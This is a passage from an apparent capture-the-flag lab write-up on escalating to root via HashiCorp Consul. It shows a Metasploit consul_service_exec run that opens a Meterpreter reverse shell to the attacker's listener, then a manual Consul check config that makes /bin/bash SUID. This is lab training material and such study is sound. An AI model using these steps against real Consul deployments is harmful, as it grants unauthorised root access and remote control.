 ```console
   ----   ---------------  --------  -----------
   LHOST  10.10.14.63      yes       The listen address (an interface
                                     may be specified)
   LPORT  1234             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> run

[*] Started reverse TCP handler on 10.10.14.63:1234 
[*] Creating service 'CkgOb'
[*] Service 'CkgOb' successfully created.
[*] Waiting for service 'CkgOb' script to trigger
[*] Sending stage (989032 bytes) to 10.129.52.79
[*] Meterpreter session 1 opened (10.10.14.63:1234 -> 10.129.52.79:47984) at 2022-10-04 20:15:48 +0100
[*] Removing service 'CkgOb'
[*] Command Stager progress - 100.00% done (763/763 bytes)
```
BOOM! Metasploit is an easy way to go but for the sake of learning and training for OSCP I try to refrain from using it.

```console
(Meterpreter 1)(/) > cat /root/root.txt
18bf****************************

```

Thats why we have a manual version to learn from!

For the manual version the link below gives info and scripts to make the exploit happen.

https://www.consul.io/docs/discovery/checks

Note: It is possible to exploit this through curl but I was unable to make it work.

Edit the script slightly to chmod bash to have a suid bit.

```hcl
check = {
  id = "rogue"
  name = "rogue"
  args = ["/usr/bin/chmod","4777","/bin/bash"]
  interval = "10s"
  timeout = "1s"
}
```

Upload the file to the victim and copy the file into the consul config.
